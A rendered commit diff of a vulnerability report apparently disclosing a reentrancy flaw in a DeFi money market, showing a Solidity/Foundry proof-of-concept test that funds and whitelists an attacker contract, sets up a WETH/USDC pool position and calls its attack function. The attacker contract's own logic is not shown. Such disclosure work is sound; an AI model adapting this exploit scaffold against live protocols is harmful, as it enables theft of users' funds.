

Before and after one commit to tmoor9/sscrypto, a Markdown page: VulnerabilityReport.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/VulnerabilityReport.md
+++ b/VulnerabilityReport.md
@@ -166,19 +134,19 @@ contract ReentrancyPoc is DexV2BaseSetup {
     function setUp() public override {
         super.setUp();
 
-        tokenA = new MaliciousERC20Poc("Malicious Token A", "MTKA", 18);
-        tokenB = new MaliciousERC20Poc("Malicious Token B", "MTKB", 18);
-
-        // Deploy Money Market module implementations
-        moneyMarketAdminModule = new FluidMoneyMarketAdminModuleImplementation(address(liquidity), address(dexV2));
-        moneyMarketOperateModule = new FluidMoneyMarketOperateModule(address(liquidity), address(dexV2));
-        moneyMarketLiquidateModule = new FluidMoneyMarketLiquidateModule(address(liquidity), address(dexV2));
-        moneyMarketCallbackModule = new FluidMoneyMarketCallbackImplementation(address(liquidity), address(dexV2));
-
-        // Deploy Money Market implementation and proxy
+        // Deploy and configure Money Market
         FluidMoneyMarket implementation = new FluidMoneyMarket(address(liquidity), address(dexV2));
         FluidMoneyMarketProxy proxy = new FluidMoneyMarketProxy(address(implementation), "");
         moneyMarket = FluidMoneyMarket(address(proxy));
+
+        vm.prank(admin);
+        moneyMarketAdminModule = new FluidMoneyMarketAdminModuleImplementation(address(liquidity), address(dexV2));
+        vm.prank(admin);
+        moneyMarketOperateModule = new FluidMoneyMarketOperateModule(address(liquidity), address(dexV2));
+        vm.prank(admin);
+        moneyMarketLiquidateModule = new FluidMoneyMarketLiquidateModule(address(liquidity), address(dexV2));
+        vm.prank(admin);
+        moneyMarketCallbackModule = new FluidMoneyMarketCallbackImplementation(address(liquidity), address(dexV2));
 
         vm.prank(admin);
         (bool success,) = address(moneyMarket).call(abi.encodeWithSelector(moneyMarketAdminModule.setImplementations.selector, address(moneyMarketOperateModule), address(moneyMarketLiquidateModule), address(moneyMarketAdminModule), address(moneyMarketCallbackModule)));
@@ -188,10 +156,16 @@ contract ReentrancyPoc is DexV2BaseSetup {
         (success,) = address(moneyMarket).call(abi.encodeWithSelector(moneyMarketAdminModule.updateOracle.selector, address(oracle)));
         require(success, "Failed to set oracle");
 
-        attacker = new AttackContractPoc(moneyMarket, dexV2, tokenA, tokenB);
-        tokenA.setAttacker(address(attacker));
-        tokenB.setAttacker(address(attacker));
+        // List standard tokens (WETH is index 1, USDC is index 2)
+        _listNativeToken();
+        _listUSDC();
 
+        // Create and fund attacker contract
+        attacker = new Attacker(moneyMarket, NATIVE_TOKEN_ADDRESS, address(USDC));
+        deal(NATIVE_TOKEN_ADDRESS, address(attacker), 110 ether);
+        deal(address(USDC), address(attacker), 10_000 * 1e6);
+
+        // Whitelist attacker for D3 pool creation
         vm.prank(admin);
         bytes memory whitelistData = abi.encodeWithSelector(bytes4(keccak256("updateUserWhitelist(address,bool)")), address(attacker), true);
         dexV2.operateAdmin(3, 3, whitelistData);
@@ -200,27 +174,16 @@ contract ReentrancyPoc is DexV2BaseSetup {
         whitelistData = abi.encodeWithSelector(bytes4(keccak256("updateUserWhitelist(address,bool)")), address(this), true);
         dexV2.operateAdmin(3, 3, whitelistData);
 
-        // Supply liquidity for USDC to be borrowed
+        // Supply liquidity for USDC to be borrowed by the attacker
         _setUserAllowancesDefault(address(liquidity), admin, address(USDC), address(mockProtocol));
         _supply(address(liquidity), mockProtocol, address(USDC), alice, 1_000_000 * 1e6); // 1M USDC
     }
 
-    function runExploit() public {
-        // List malicious tokens and USDC
-        _listToken(address(tokenA)); // index 1
-        _listToken(address(tokenB)); // index 2
-        _listUSDC();                 // index 3
-
-        // Set oracle prices for malicious tokens ($1)
-        vm.prank(admin);
-        oracle.setPrice(address(tokenA), 1e18);
-        vm.prank(admin);
-        oracle.setPrice(address(tokenB), 1e18);
-
-        // Initialize D3 Pool
+    function testReentrancyExploit() public {
+        // Initialize D3 Pool for WETH/USDC
         DexKey memory dexKey = DexKey({
-            token0: address(tokenA) < address(tokenB) ? address(tokenA) : address(tokenB),
-            token1: address(tokenA) < address(tokenB) ? address(tokenB) : address(tokenA),
+            token0: address(USDC),
+            token1: NATIVE_TOKEN_ADDRESS,
             fee: 100,
             tickSpacing: 1,
             controller: address(this)
@@ -229,27 +192,23 @@ contract ReentrancyPoc is DexV2BaseSetup {
         bytes memory initCallbackData = abi.encodeWithSelector(this.initializePoolCallback.selector, dexKey);
         dexV2.startOperation(initCallbackData);
 
-        // Set position caps
+        // Set D3 position cap
         vm.prank(admin);
         (bool success,) = address(moneyMarket).call(
             abi.encodeWithSelector(
                 moneyMarketAdminModule.updateD3PositionCap.selector,
-                dexKey,
-                -887272,
-                887272,
-                type(uint256).max,
-                type(uint256).max
+                dexKey, -887272, 887272, type(uint256).max, type(uint256).max
             )
         );
         require(success, "Failed to set D3 position cap");
 
-        // Setup, borrow, and execute attack
+        // Execute the attack
         vm.startPrank(address(attacker));
-        attacker.setupAttackPosition(1, 2, dexKey, -100, 100);
 
-        // Collateral Value = 100 MTKA ($1) + 100 MTKB ($1) = $200
-        // Collateral Factor = 80%, Max Borrow = $160
-        uint256 usdcBorrowAmount = 150 * 1e6; // Borrow $150 USDC
-        attacker.borrow(3, usdcBorrowAmount); // USDC is token index 3
+        attacker.setupPosition(2); // USDC is tokenIndex 2
+        attacker.createD3Position(2, dexKey, -100, 100);
+
+        uint256 wethBalanceBefore = address(attacker).balance;
+        uint256 usdcBalanceBefore = IERC20(USDC).balanceOf(address(attacker));
 
         attacker.attack();
```
Also changed, not shown: other parts of VulnerabilityReport.md (+82 -128 lines).
